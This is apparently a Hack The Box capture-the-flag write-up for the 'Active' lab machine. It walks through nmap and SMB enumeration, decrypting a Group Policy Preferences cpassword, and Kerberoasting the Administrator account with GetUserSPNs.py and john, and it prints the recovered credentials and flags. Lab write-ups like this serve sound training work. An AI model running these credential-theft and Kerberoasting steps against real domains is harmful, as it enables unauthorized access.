


# HTB Active

Basic nmap scan:
```
Nmap scan report for 10.10.10.100
Host is up (0.13s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
49170/tcp open  unknown
49171/tcp open  unknown
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 421.69 seconds
          Raw packets sent: 67230 (2.958MB) | Rcvd: 68353 (2.752MB)
```

Aggressive nmap scan:
```
Nmap scan report for 10.10.10.100
Host is up (0.12s latency).
Not shown: 982 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-03-29 23:09:53Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49165/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=3/29%OT=53%CT=1%CU=37043%PV=Y%DS=2%DC=T%G=Y%TM=6424C59
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=2%ISR=10C%CI=I%TS=7)SEQ(SP=103%GC
OS:D=1%ISR=10C%CI=I%II=I%TS=7)SEQ(SP=102%GCD=1%ISR=10A%TS=7)OPS(O1=M53ANW8S
OS:T11%O2=M53ANW8ST11%O3=M53ANW8NNT11%O4=M53ANW8ST11%O5=M53ANW8ST11%O6=M53A
OS:ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=
OS:80%W=2000%O=M53ANW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2
OS:(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%
OS:F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD
OS:=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL
OS:=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)
Uptime guess: 0.002 days (since Wed Mar 29 17:07:53 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|  210: 
|_    Message signing enabled and required
|_clock-skew: -1s
| smb2-time: 
|  date: 2023-03-29T23:11:09
|_  start_date: 2023-03-29T23:08:18
TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1  67.12 ms 10.10.16.1
2  67.19 ms 10.10.10.100
NSE: Script Post-scanning.
Initiating NSE at 17:11
Completed NSE at 17:11, 0.00s elapsed
Initiating NSE at 17:11
Completed NSE at 17:11, 0.00s elapsed
Initiating NSE at 17:11
Completed NSE at 17:11, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.96 seconds
          Raw packets sent: 1528 (76.970KB) | Rcvd: 4994 (205.670KB)
```

SMB share enumeration:
```
└─$ smbclient -L \\\\10.10.10.100\\                               
Password for [WORKGROUP\cl3al]:
Anonymous login successful
Sharename      Type      Comment
---------      ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC      Remote IPC
NETLOGON        Disk      Logon server share 
Replication    Disk     
SYSVOL          Disk      Logon server share 
Users          Disk     
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.100 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

I found a user and password in the Replication SMB share and download the  groups.xml file which contained the information with the get command.:
```
└─$ cat groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
Credentials:
```
Uname: active.htb\SVC_TGS
Passwd HASH: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Next, I found out that I can use a tool natively installed on Kali Linux called GPP-decrypt.:

Password:
```
Uname: active.htb\SVC_TGS
Passwd: GPPstillStandingStrong2k18
```

I cannot establish a winrm session with evil-winrm. However, I can now authenticate to other SMB share with the following command. For some reason, psexec with Impacket and psexec module in msfconsole both did not work for some odd reason.:
```
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

I was quickly able to get the user.txt file's hash when browsing through the svc-tgs/Desktop directory.:
```
88b8b4f31b38fc5019cfa7081f30170e
```

I did not find anything in the Users directory. However, I then logged into the SYSVOL directory where I eventually located a file called Gpttmpl.inf which looked important. This led me to research the file which brought me to <https://www.exploit-db.com/exploits/47558> where I found a CVE-2015-0008 for a RCE attack to gain System level privileges. However, this did not work for me.

I then found that I could probably do a kerberoast attack since I have the credentials for the svc\_tgs user. However, after getting the TGT with Impacket's scripts, I could not establish a system level session with psexec once again nor with msfconsole.

Apparently, since the svc\_tgs is in the users directory on the machine as confirmed after accessing the /users SMB share, this means I can just grab the SPN for the user and crack it offline.:

Command:
```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

Administrator's SPN:
```
cat GetUserSPNs.out
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$ed0c162a6707da1f808285d652ecd6ec$b1766212e9e306e7d55dc374d945c177a8a3cfbb62627fa6bae752c09a9a49330017553c99b887de166bf55ba4513c48e9d8fce835e08596e7d93dded4badb01647d600b55d3157439c03f40572419b147f6829e438d1c18413ecb1eb7ed446ef53e3d030a7ffdfd00950d37072e9fc4d65da7974af5e7193f7614cf9fbeb5f6e261d5995da85827a5083dabe7ea656d5984554d1aba3d24dc3487bb14afa411959748e596e20c8cc77b0da171761e2f88592c6799fd1493c4ff6692bb66b5afca35fd39b6a0abc29d71a7712be7b72f330d187cdad292ce396b11b7cde608fd413c00273f488af2955482dce96094cee7e0bd16743796264d47663bd474ced2039bd7d6ac4a9ee2b39fc1e1cea89b808787e9414c5c86d012c6166657c18322559041c946cab2b5ba0d46ead4bf4a2f5152b017c932bdabca0a6f5a3b0d310aac8d75adcbcef853f22f1132125bdc197659083737758f2766e6e90c6029120d0095dfbb808e0ce741c4cc9e625e88ed3d0e927a13edac418f2aa3faf8aee09b49648789864ae8ec26b51b164f09c1aeaffdf2af17b9eaada5025bf604e502ec3e0bb60b6d6843105be2219ee669aa0e395628efc8efef6959323244c48d02e2c426ef90ea377633177023154c64822f57ee39da1a7acc6bdacc7f1fcc31ff85f7cbdaa46abaede517a6cb11925af9447f5ef7efa1de69c29e572e6ae047c8d3e6ee9c4b5e3cc37d800c130620b09b608ea8adf5d7da9c4d6e10d8dd13ddca1b9438516848cf5b0ba8aa416506593a3890127adeadfed1d85f83e75c27aa68aa4d87879c8708e584ccf088b1e21373a8ce28a61552001c83ebc6c50ac6060a9884924a0ab1bb2dbc95b8a660f98535dda362993fb4c83fe8d979643dc2de0cbdb6a6de60fb16982a800c49ad98bef4d88767205acff02f052de7440369db9716db4084224fc80414246f0af57693297b5b5013b3a5ddf9e20df5a94c5a79031b9175f4cd70ce5aedcf718db283aa3dc27fe56f5fa334cbf5ae78f89ddcf410cff51f5f3fb2d7b830afb5d8f023ed6cc1f2645beb06d79ada9e03edec0748292df740e5addd30a0a96fb1646fb46e37ef261692551115dd0fe9a2fbf577987e21e17e83e16c45c49faa1a726818c543fcb06ab15b021c6e6703d884d2082cba4fef8a03b5881ed9e72d5375a829cae73ac7d124093332e9047db9b2841cf3d50439d93d6b2839ff1468784ed4a6a55bbae16e19e610c3ccf3ffb6
```

With the SPN hash saved in GetUserSPNs.out file, I then simply used the following command to crack it:
```
john --format=krb5tgs GetUserSPNs.out --wordlist=/usr/share/wordlists/rockyou.txt
```


Now I should be able to access additional shares with this new password especially since it is the Administrator's password.


Root.txt hash:
```
└─$ cat root.txt 
155cb41fc0b9b823e8b789f06c04a82b
```

**###ROOTED!!!###**
